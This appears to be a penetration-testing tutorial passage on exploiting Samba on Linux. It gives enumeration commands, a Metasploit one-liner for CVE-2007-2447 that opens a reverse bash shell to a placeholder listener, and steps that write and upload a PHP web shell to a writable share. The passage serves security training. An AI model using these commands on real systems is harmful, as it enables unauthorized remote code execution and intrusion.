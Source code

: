 ```

# Broad enum
enum4linux -a $TARGET | tee enum4linux_${TARGET}.txt
smbmap -H $TARGET
rpcclient -U "" -N $TARGET

# Check exploits
searchsploit samba 3.0
# Metasploit (CVE-2007-2447 usermap_script)
msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS $TARGET; set RPORT 445; set PAYLOAD cmd/unix/reverse_bash; set LHOST YOUR_IP; set LPORT 4444; run"

# If writable web share, upload web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
smbclient //$TARGET/WEB -N -c 'put shell.php'
# Then: http://TARGET/shell.php?cmd=id
```

## Summary
- This module focuses on identifying and exploiting Samba on Linux. Start with SMB enumeration (Nmap, smbclient, enum4linux, smbmap, rpcclient) and aim to discover shares, permissions, and the Samba version.
- Exploitation commonly follows two routes:
  1) Abuse accessible/writable shares to move toward code execution (e.g., upload a web shell to a web-mapped share or plant SSH keys in a user’s home).
  2) Leverage known Samba RCE vulnerabilities in older versions—particularly CVE-2007-2447 via Metasploit’s usermap_script—once version evidence supports it.
- Validate the shell and proceed with post-exploitation. Always tailor to your environment, and only test with proper authorization.